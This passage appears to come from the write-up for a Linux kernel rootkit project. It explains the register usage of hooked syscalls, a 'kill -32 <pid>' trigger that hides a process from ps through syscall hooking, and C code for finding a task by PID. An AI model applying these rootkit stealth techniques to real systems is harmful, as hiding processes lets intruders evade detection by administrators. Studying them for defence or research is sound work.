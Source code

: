    Dependent registers:
```
1. rax: contains syscall ids.
2. rdi: which contains the file descriptor.
3. rsi: which contains the passed arguments.
4. rdx: length of the passed argument(or string).
```
   In this scenario, we will only need **rdi** and **rsi** register. This is because, we need to know the passed argument (**rsi** register, rather **si** register) and as we will be dealing with files, we will ofcourse be needing the file descriptors (**rdi** register, rather **di** register). (Reason was mentioned earlier in this file)

   So, a recap about the Workflow of the machanism:\
    - When we deliver pid of any process via `kill -32 <pid>`, it will at first find out that particular `pid` by surfing through "`/proc/`" directory.
    - After getting the `pid`, it will perform syscall hooking to hide that particular pid and then offering a new process list (excluding the mentioned pid), if the user tries to see running processes using ***ps***.

   1. Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/055b7dce57cf1317f13fb3bd141e21c3ec82c5dc/kernel_src/include/hook_syscall_helper.h#L99).
   Finding the process id/ pid:\
   According to [LKM_HACKING](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.):
```c
	/* Here, -"&gt;" is the html character entities, which really mean: -">" 
	I really don't know, how it happened in that site */

	/* get task structure from PID */
	struct task_struct *get_task(pid_t pid)
	{
		struct task_struct *p = current;
	do {
		if (p->pid == pid)
			return p;
		p = p->next_task;
	}
	while (p != current);
	return NULL;
}
```
   I wasn't understanding this portion, but yes I was getting an idea that it is looping to get the process ids. So, I tried for loop.
```c
// reveng_rtkit

#include <linux/sched.h>        /* task_struct: Core info about all the tasks */

struct task_struct *find_task(pid_t pid)
{
	struct task_struct *target_process = current;

	/* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601
	 * for loop macro
	 * #define for_each_process(p) \
	 * for (p = &init_task ; (p = next_task(p)) != &init_task ; )
	 */
	for_each_process(target_process)
	{
		if (target_process->pid == pid)
		{
			return target_process;
		}
	}
	return NULL;
```